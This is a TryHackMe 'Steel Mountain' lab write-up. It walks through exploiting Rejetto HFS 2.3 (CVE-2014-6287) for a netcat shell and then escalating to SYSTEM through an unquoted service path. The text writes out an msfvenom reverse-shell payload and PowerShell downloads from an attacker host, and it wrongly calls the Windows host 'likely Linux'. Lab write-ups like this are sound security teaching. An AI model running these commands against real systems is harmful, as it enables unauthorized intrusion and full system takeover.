 # Steel Mountain \(W\) \(wlk\)

_TryHackMe_ – [**Steel Mountain**](https://tryhackme.com/room/steelmountain) Write-Up

_topics_: web application security, powershell, Windows privilege escalation, public exploits, file transfering

1. **Plan**
2. **Enumeration**
3. **Local Privilege Escalation**
4. **Exploitation \(Root PrivEsc\)**

new tools: winPEAS, powershell

tools: firefox browser, terminal, nmapAutomator, python, msfvenom

## 1\) Plan

Not really a plan as this is a walkthrough. Hopefully this will make more sense than the Alfred box as an introduction to powershell and Windows privesc, surely one of my **weak points**.

## 2\) Enumeration

running `./nmapAutomator.sh <ip> Basic`_:_

The host is likely running Linux with windows services attributed to several open ports.

PORT STATE SERVICE VERSION

80/tcp open http Microsoft IIS httpd 8.5

\|\_http-server-header: Microsoft-IIS/8.5

135/tcp open msrpc Microsoft Windows RPC

139/tcp open netbios-ssn Microsoft Windows netbios-ssn

445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds

3389/tcp open ssl/ms-wbt-server?

Nmap returns some interesting things about the machine and our ticket in. OS is Windows Server 2008 R2 -2012 \(`nmap -sV -O <ip>`\). There is an additional webserver running on port 8080. Navigating to this page displays “no files in this server” header; with a login page, a home folder, a search bar, a select tab for all, invert and mask, and an actions tab to archive and get list.

Clicking the Server Information link reveals this web server is running the **Rejetto HTTP File Server 2.3** and because its installed version is 2.3, it is vulnerable to **CVE-2014-6287** \(R.C.E\).

searching on exploit-db yields a PoC exploit python script that requires a netcat binary and an HTTP server to deliver the payload.

## 3\) Local Privilege Escalation

Using exploit 39161, we will need to run a webserver on port 80, a netcat binary on the server and a netcat listener on a random port. The Rejetto PoC script explains the vulnerability that exists in version 2.3 in order to achieve a low privilege shell. The HFS HTTP file server can be used to send and receive files. Because port 8080 is open, the script has free reign to upload files to the HTTP file sharing server. The scipt uploads a netcat binary to use a bind shell on the target machine and because the port is open, it will accept the incoming connection and upload the .exe, rerouting it to the attackers IP that will be listening with netcat.

We will need to start the server and listener before running the command `python rejetto.py <targetIP>` _8080_ twice. The first time the command is run, we upload the netcat binary that the rejetto script calls and following the second run, a shell is established with netcat.

## 4\) Exploitation \(Root PrivEsc\)

With successful implementation of the exploit-db script, we have a low privilege shell as the user bill. We need to now transfer files from attacker to victim in order for winPEAS to check for ways we can become root. We can use powershell to transfer winPEAS from our server to the victim, but winPEAS is contingent on the CPU architecture of the victim. To check this use `systeminfo` which returns x64 based architecture.

We can use powershell to fetch winPEAS from our server \(verify in the correct directory, \Programs\Startup in this case\) `powershell -c "Invoke-WebRequest -OutFile winPEAS.exe http://<attacker ip>/winPEAS.exe"` followed by `dir` to verify and running it as _winPEAS.exe_.

 WinPEAS returns several potential attack vectors for root privilege, but one in particular stands out. An **unquoted path** running services. When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability known as **Unquoted Service Path** which allows a user to gain SYSTEM privileges \(if service is running with those privileges\)

Using powershell to check which services are associated with the unquoted path _“C:\Program Files \(x86\)\IObit\Advanced SystemCare\ASCService.exe”_ `powershell -c "Get-Service"` and cd to the path. The payload will be created with msfvenom on the attacker machine `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=1234 -f exe -o ASCService.exe` and listen with netcat on port 1234 `nc -nlvp 1234`.

Following this, the service must be stopped `sc stop AdvancedSystemCareService9` and renamed/backed up `rename ASCService.exe ASCService_bak.exe`. Then the payload must be downloaded `powershell -c "Invoke-WebRequest -OutFile ASCService.exe http://<attacker_ip>/ASCService.exe"`

 and the service started `sc start AdvancedSystemCareService9`, which returns a shell with nt authority\system privileges.

